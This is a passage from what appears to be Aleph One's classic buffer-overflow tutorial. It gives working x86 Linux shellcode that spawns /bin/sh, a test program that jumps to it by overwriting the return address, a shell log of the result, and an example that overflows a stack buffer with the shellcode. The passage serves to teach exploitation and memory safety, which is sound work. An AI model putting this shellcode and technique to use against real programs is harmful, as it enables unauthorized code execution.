    And our new test program:

testsc2.c
</PRE>
```C
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
   int *ret;

   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;

}
```
<PRE>

</PRE>
```shell
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
```
<PRE>

                              Writing an Exploit
                              ~~~~~~~~~~~~~~~~~~
                          (or how to mung the stack)
                          ~~~~~~~~~~~~~~~~~~~~~~~~~~


   Lets try to pull all our pieces together.  We have the shellcode.  We know
it must be part of the string which we'll use to overflow the buffer.  We 
know we must point the return address back into the buffer.  This example will
demonstrate these points:

overflow1.c
</PRE>
```C
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() {
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
```
<PRE>
